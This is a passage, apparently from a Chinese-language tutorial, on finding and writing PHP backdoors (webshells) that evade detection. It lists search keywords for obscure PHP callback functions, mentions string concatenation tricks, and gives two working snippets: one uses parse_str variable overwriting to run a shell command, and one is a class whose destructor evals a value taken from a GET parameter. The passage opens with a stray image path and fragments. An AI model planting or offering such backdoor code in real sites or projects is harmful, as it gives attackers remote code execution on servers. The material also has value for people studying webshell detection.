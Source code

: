   开启报错

\- ``getcwd()``

  获得当前路径

#### 常规思路

**遍历PHP的文档，查找不常见且可做后门的回调函数**

利用下面五个关键词，能提高查找到拥有后门潜质的PHP回调函数的效率：

**关键词一：callable**

![](https://p3.ssl.qhimg.com/t0178d58bb721721ab4.png)

**关键词二：mixed $options**

![](https://p5.ssl.qhimg.com/t012a45b971ecc917ba.png)

**关键词三：handler**

![](https://p2.ssl.qhimg.com/t01bd12f06794606631.png)

**关键词四：callback**

![](https://p0.ssl.qhimg.com/t01f301e99b1c01f815.png)

**关键词五：invoke**

![](https://p2.ssl.qhimg.com/t015dc927ac757c7f88.png)

**substr拼接**

![](https://p4.ssl.qhimg.com/dm/1024_614_/t0171d292fb95be2b64.png)

**变量覆盖**

```php
<?php
$b='ls';
parse_str("a=$b");
print_r(`$a`); 
?>
```

**析构函数**

```php
<?php
	class User {
		public $name="";
		function __destruct (){
			eval($this->name);
		}	
	}
	highlight_file(__FILE__);

	$user = new User;
	$user->name = $_GET['l1nk'];
?>
```
